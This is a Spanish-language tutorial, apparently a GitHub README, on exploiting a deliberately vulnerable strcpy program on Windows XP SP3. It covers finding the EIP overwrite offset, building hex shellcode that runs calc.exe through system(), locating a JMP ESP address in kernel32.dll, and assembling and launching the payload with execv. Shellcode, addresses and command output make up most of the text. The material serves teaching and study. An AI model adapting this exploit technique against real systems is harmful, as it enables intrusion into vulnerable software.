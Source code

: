 Empezamos creando un programa que sea vulnerable, en este caso vamos a utilizar la función `strcpy()`.

El código en c, lo encontraréis en `vulnerable.c`.

Cadena a pasar, el EIP nos da 42424242 por los últimos 4 dígitos, ya que la B en hexadecimal se representa como 42.
```c
argv = AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```
La forma más fácil de encontrar dónde se desborda el buffer es metiendo caracteres de 4 en 4, es decir:
```c
argv = AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR
```
Ya tenemos nuestro programa vulnerable, el cual se desborda a partir de la primera B o si nos ayudamos de la segunda cadena, se desbordará en la R. Ahora tenemos que hacer con la ayuda de C y Ensamblador, el programa que abra directamente la calculadora, para ello cargamos la librería msvcrt.dll, la cual se utiliza para funciones de C como el printf, el memcpy y muchas más, además de controlar muchos procesos del propio sistema operativo. 

El código que he utilizado lo podéis encontrar en `shellcode.c`, en el cual es importante cambiar las direcciones de memorias de LoadLibraryA y de system. Para encontrar estas direcciones de memorias nos ayudaremos de un pequeño script que encuentras en el foro de [elhacker.net](http://foro.elhacker.net/index.php/topic,56137.0.html)

A la hora de utilizarlo nos dará como resultado algo de este estilo:
```bash
C:\Documents and Settings\Windows\My Documents>offset.exe kernel32.dll LoadLibraryA
Offset de LoadLibraryA en la DLL kernel32.dll es 7c801d7b

C:\Documents and Settings\Windows\My Documents>offset.exe msvcrt.dll system
Offset de system en la DLL msvcrt.dll es 77c293c7
```
Agregaremos estas direcciones a nuestro shellcode.c, compilamos el código y tras ello, convertiremos el shellcode.obj en hex.
```bash
xxd -i shellcode.obj > shellcode.hex
```
Ahora buscamos el inicio del código ensamblador, que es "push ebp", que en hexadecimal se traduce a `0x55, 0x8b`, encontremos varias y nos tenemos que quedar con las dos acabadas en `0xd3` que corresponde con la llamada a `call ebx`. Así tendríamos las dos partes del código ensamblador, la primera que corresponde a la llamada a la librería `msvcrt.dll` y la segunda a la calculadora, es decir, `calc.exe`

Nos queda algo como esto:
```hex
																  0x55,
0x8b, 0xec, 0x33, 0xff, 0x57, 0x83, 0xec, 0x0c, 0xc6, 0x45, 0xf5, 0x6d,
0xc6, 0x45, 0xf6, 0x73, 0xc6, 0x45, 0xf7, 0x76, 0xc6, 0x45, 0xf8, 0x63,
0xc6, 0x45, 0xf9, 0x72, 0xc6, 0x45, 0xfa, 0x74, 0xc6, 0x45, 0xfb, 0x2e,
0xc6, 0x45, 0xfc, 0x64, 0xc6, 0x45, 0xfd, 0x6c, 0xc6, 0x45, 0xfe, 0x6c,
0x8d, 0x45, 0xf5, 0x50, 0xbb, 0x7b, 0x1d, 0x80, 0x7c, 0xff, 0xd3, 0x55,
0x8b, 0xec, 0x33, 0xff, 0x57, 0x83, 0xec, 0x08, 0xc6, 0x45, 0xf7, 0x63,
0xc6, 0x45, 0xf8, 0x61, 0xc6, 0x45, 0xf9, 0x6c, 0xc6, 0x45, 0xfa, 0x63,
0xc6, 0x45, 0xfb, 0x2e, 0xc6, 0x45, 0xfc, 0x65, 0xc6, 0x45, 0xfd, 0x78,
0xc6, 0x45, 0xfe, 0x65, 0x8d, 0x45, 0xf7, 0x50, 0xbb, 0xc7, 0x93, 0xc2,
0x77, 0xff, 0xd3
```
Y ahora sustituimos los "0x" por "\x" y eliminamos todos los espacios y "\n" para convertirlo en bytes, que no se nos olvide quitar las comas, y quedaría algo como esto:
```byte
\x55\x8b\xec\x33\xff\x57\x83\xec\x0c\xc6\x45\xf5\x6d\xc6\x45\xf6\x73\xc6\x45\xf7\x76\xc6\x45\xf8\x63\xc6\x45\xf9\x72\xc6\x45\xfa\x74\xc6\x45\xfb\x2e\xc6\x45\xfc\x64\xc6\x45\xfd\x6c\xc6\x45\xfe\x6c\x8d\x45\xf5\x50\xbb\x7b\x1d\x80\x7c\xff\xd3\x55\x8b\xec\x33\xff\x57\x83\xec\x08\xc6\x45\xf7\x63\xc6\x45\xf8\x61\xc6\x45\xf9\x6c\xc6\x45\xfa\x63\xc6\x45\xfb\x2e\xc6\x45\xfc\x65\xc6\x45\xfd\x78\xc6\x45\xfe\x65\x8d\x45\xf7\x50\xbb\xc7\x93\xc2\x77\xff\xd3
```
Ya tenemos nuestro shellcode, ahora tenemos que inyectarlo en nuestro programa vulnerable, para hacer esto, en vez de solo meter `AAAAA...AAA` en la cadena, vamos a meter de 4 en 4 letras, tal que, `AAAABBBBCCCCDDDD...FFFFGGGG` y con ayuda del debugger, buscaremos el resultado de nuestro `EIP` y así sabremos dónde ocurre nuestro desbordamiento, en mi caso ocurre en `RRRR`, nuestro `EIP` o código de rror al ejecutar marcaría `52525252`, ya que es la traducción a hexadecimal de `RRRR`. Si eliminamos de la cadena las `RRRR` y ejecutamos el programa, cambiaría nuestro código de error a `00001000` 

Ahora tenemos que incluir nuestro shellcode, pero como las direcciones de pila cambian constantemente y además contienen un 00 al principio, y nuestro programa se pararía al encontrar un 0. Necesitamos hacer que nuestro `EIP` salte a una dirección de memoria de un `JMP ESP` o `CALL ESP` y así se ejecutaría nuestro shellcode.

Voy a utilizar un programa que me va a ayudar a buscar la dirección de memoria a la que debe saltar, su nombre es `findjmp` y lo encontramos en:
 - [Hecho por Ryan de eeye](https://github.com/nickvido/littleoldearthquake/blob/master/corelan/findjmp/findjmp2.c)
 
 Usamos el siguiente comando para sacar las direcciones de memoria
```bash
findjmp kernel32.dll esp
```
Y deberíamos de tener algo como esto:
```bash
C:\Documents and Settings\Windows\My Documents>findjmp2.exe kernel32.dll esp

Findjmp, Eeye, I2S-LaB
Findjmp2, Hat-Squad
Scanning kernel32.dll for code useable with the esp register
0x7C8369F0      call esp
0x7C86467B      jmp esp
0x7C868667      call esp
Finished Scanning kernel32.dll for code useable with the esp register
Found 3 usable addresses
```
Hemos encontrado directamente un `JMP ESP`, si no logramos encontrarlo en la librería kernel32.dll, tendremos que seguir buscando dependiendo de nuestra versión, en mi caso utilizo WinXP SP3.

Una vez encontrada la llamada, y teniendo todos los datos anteriores, es momento de crear nuestro payload.

Para crear nuestro payload, empezaremos cambiando la dirección de memoria de la `JMP ESP` a bytes, en mi caso sería:
```c
Dirección de memoria: "0x7C86467B"
Cambiado a bytes: "\x7B\x46\x86\x7C"
```
Ya tenemos una parte de nuestro payload, la dirección de memoria a la que saltar, ahora necesitamos añadir nuestro shellcode y luego nuestra cadena, de forma que:
```c
Cadena = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ"
jmp_esp = "\x7B\x46\x86\x7C"
shellcode = "\x55\x8b\xec\x33\xff\x57\x83\xec\x0c\xc6\x45\xf5\x6d\xc6\x45\xf6\x73\xc6\x45\xf7\x76\xc6\x45\xf8\x63\xc6\x45\xf9\x72\xc6\x45\xfa\x74\xc6\x45\xfb\x2e\xc6\x45\xfc\x64\xc6\x45\xfd\x6c\xc6\x45\xfe\x6c\x8d\x45\xf5\x50\xbb\x7b\x1d\x80\x7c\xff\xd3\x55\x8b\xec\x33\xff\x57\x83\xec\x08\xc6\x45\xf7\x63\xc6\x45\xf8\x61\xc6\x45\xf9\x6c\xc6\x45\xfa\x63\xc6\x45\xfb\x2e\xc6\x45\xfc\x65\xc6\x45\xfd\x78\xc6\x45\xfe\x65\x8d\x45\xf7\x50\xbb\xc7\x93\xc2\x77\xff\xd3"
```
Teniendo todo, nos ayudaremos de strcat para concatenar las cadenas, tal que:
```c
strcat(payload, jmpesp);
// "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ\x7B\x46\x86\x7C"
strcat(payload, shellcode);
//"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ\x7B\x46\x86\x7C\x55\x8b\xec\x33\xff\x57\x83\xec\x0c\xc6\x45\xf5\x6d\xc6\x45\xf6\x73\xc6\x45\xf7\x76\xc6\x45\xf8\x63\xc6\x45\xf9\x72\xc6\x45\xfa\x74\xc6\x45\xfb\x2e\xc6\x45\xfc\x64\xc6\x45\xfd\x6c\xc6\x45\xfe\x6c\x8d\x45\xf5\x50\xbb\x7b\x1d\x80\x7c\xff\xd3\x55\x8b\xec\x33\xff\x57\x83\xec\x08\xc6\x45\xf7\x63\xc6\x45\xf8\x61\xc6\x45\xf9\x6c\xc6\x45\xfa\x63\xc6\x45\xfb\x2e\xc6\x45\xfc\x65\xc6\x45\xfd\x78\xc6\x45\xfe\x65\x8d\x45\xf7\x50\xbb\xc7\x93\xc2\x77\xff\xd3"
```
Así quedaría nuestro payload, preparado para ejecutarlo dentro de nuestro programa vulnerable, para ello nos ayudamos de execv, que nos permite realizar una ejecución de comandos. Guardamos los argumentos que vamos a necesitar en una variable.
```c
char	*args[3];

args[0] = "vulnerable.exe"; // programa a ejecutar
args[1] = payload; // argumentos que vamos a pasarle al programa vulnerable
args[2] = NULL; // pasamos nulo porque no metemos más argumentos
```
Una vez definidos, llamamos a execv.
```c
execv("vulnerable.exe", args);
// pasamos el nombre del programa a ejecutar primero junto a los argumentos que queremos que ejecute.
```
Y ya tendríamos todo hecho, solo queda ejecutarlo y ver como se abre nuestra calculadora :D!